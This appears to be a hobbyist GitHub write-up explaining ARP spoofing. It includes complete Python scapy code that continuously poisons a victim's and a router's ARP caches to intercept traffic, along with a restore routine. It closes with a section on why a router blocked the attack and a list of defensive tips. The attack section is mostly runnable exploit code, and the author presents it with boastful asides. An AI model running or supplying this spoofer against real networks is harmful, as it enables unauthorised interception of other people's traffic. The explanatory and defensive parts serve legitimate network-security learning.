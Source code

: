 # How to check if your router tries to protect you

**ARP Spoofing** also known as Man in the Middle is simple but powerful attack. It exploits the vulnerabilites of ARP (Address Resolution Protocol)

-------------------------------------------------------------------------------

## How ARP Spoofing Works

Normally these are how the computers in a network communicate (this works for ethernet switches).  

![Load](https://documentation.meraki.com/@api/deki/files/5903/Screen_Shot_2017-12-03_at_8.09.11_PM.png?revision=1&size=bestfit&width=622&height=242)

The victim (who is not the victim yet) sends an ARP broadcast to ask what are the MAC addresses of the machines with the given IP. For example, the ARP request asks who 10.10.10.20 is, the router has that IP and the router sends its MAC address to the machine that asked. The machine will then update its table so whenever it needs to send something to 10.10.10.20, it will send it to the MAC address that was given. You may now see what the vulnerability is. I could send a message to the victim saying that I'm 10.10.10.20 but give it **MY** MAC address. Now when it needs to send something to 10.10.10.20, it will send the requests to my MAC address. *The **power** feels great!*

![Get rekt](https://miro.medium.com/max/4800/1*Nz1e4AfW6HGcgXde_eIwUg.jpeg)

-------------------------------------------------------------------------------

## How the Code Works

Remember, we need to tell the victim that we're the router, so we'll create a packet doing just that. I should also say I used the library scapy.
```python
def spoof(targetip, targetmac, sourceip):
    spoofed = ARP(op=2 , pdst=targetip, psrc=sourceip, hwdst= targetmac)
    send(spoofed, verbose= False)
```
What this does is create a packet with packet destination (pdst) of the target, this tells them this packet was especially made for them, packet source (psrc) of the router so it looks like it's coming from them, and hwdst (hardware destination) is to send it to the right person. This packet will have a hwsrc (hardware source) of our IP so they associate our MAC address with the router's IP. 
```python
def restorearp(targetip, targetmac, sourceip, sourcemac):
    packet = ARP(op=2 , hwsrc=sourcemac , psrc= sourceip, hwdst= targetmac , pdst= targetip)
    send(packet, verbose=False)
    print("ARP Table restored to normal for", targetip)
```
The code above is to reverse previous actions, telling the victim that the IP of router should be associated with the MAC of the router. You literally have to reverse it, showing the **power** of the attack. 
```python
def main():
    targetip = "192.168.0.24"
    gatewayip = "192.168.0.1"
    targetmac = "a4:5e:60:b9:d6:ab"
    gatewaymac = "9c:c9:eb:c9:1a:1a"

    try:
        print("Sending spoofed ARP responses")
        #restorearp(gatewayip, gatewaymac, targetip, targetmac)
        #restorearp(targetip, targetmac, gatewayip, gatewaymac)
        while True:
            spoof(targetip, targetmac, gatewayip)
            spoof(gatewayip, gatewaymac, targetip)
    except KeyboardInterrupt:
        print("ARP spoofing stopped")
        restorearp(gatewayip, gatewaymac, targetip, targetmac)
        restorearp(targetip, targetmac, gatewayip, gatewaymac)
        quit()

if __name__=="__main__":
    main()
``` 
Here I specify the IP addresses and MAC addresses. You could automate this part, but if you have something like nmap or a network scanner (you can code this as well) you can find the addresses and manually code them in. Then we send the packets, we have to do this repeatedly so the victim thinks we're the router. If you want to turn it off, you can use Ctrl+C and it'll revert it. 

-------------------------------------------------------------------------------

## Why it may not work for you

I wasn't initially planning on making this section, but we got a new router and the spoofer doesn't wor anymore. This is actually a good thing, but not for this project. I started doing research to figure out what happened,

![Literally Me](https://pbs.twimg.com/media/EIzT11bU8AAgvlM.jpg)

I was enlightened with the knowledge of this random stackoverflow dude

>The spoof should work almost immediately if it is working properly. New devices will see the gratuitous arp from the attacker and automatically update their >cache. A victim will not detect duplicate IP, they should just update the mapping. The problem is likely at the router.
>
>Arpspoof works through a switch because the switch has no way of knowing which port the legitimate IP address/MAC mapping is, so without any form of port >security/DHCP snooping/Dynamic arp inspection, it has to trust that a device is who it says it is when it claims "192.168.1.1 is at aa:bb:cc:dd:ee:aa" in its >arp reply/gratuitous arp.
>
>~Some dude on Stack Overflow

What this basically says is the router is being skeptical. ARP Spoofing depends a lot on the router trusting the hacker's computer. The switch is doing what we want it to do, but the router is detecting something fishy from the hacker's computer.

-------------------------------------------------------------------------------

## How to protect yourself from ARP Spoofers

I hope I demostrated how easy it is to do such a thing. I lucked out when the router stopped the spoofer. Here are some tips to protect yourself

1. Setup a packet filter
    * This is a great way to prevent "posioned" packets from reaching your computer
2. Use Malware Detection Tools 
    * These can indicate that someone is trying to get into your machine
3. Use an ARP Detection Tool
    * Similar to the last one, these tools can be more focused on ARP. However downloading a tool for each vulnerability can add up. 
4. Avoid Trust Relationships
    * You should disable trust relationships. These are connections that automatically connect themselves. Trust is a huge part of ARP Spoofing and this is akin    to going for the head. Use password or some sort of authenication as works to do this. 
5. Use Static ARP 
    * If you have two machines that communicate often (ex. You and your router), try setting up a Static ARP cache. This connection can't be changed without your knowledge. This along with #4 is a great way to protect yourself.

-------------------------------------------------------------------------------

## What I learned

 I must the router screwing up everything led to me learning a lot more than what I would've. 
 
 1. ARP Spoofing, I learned what ARP Spoofing is and how to do it.
 2. nmap and netstat, I used these programs to find IP and MAC addresses.
 3. MacPorts, Port forwarding, IP forwarding, I had to enable these to get it to work.
 4. A bunch of command line stuff, I learned more about command line and different ways to troubleshoot using terminal.
 5. Scapy, I used the library scapy to create packages. 
 6. A lot about networks, permissions, and many other things. 
 
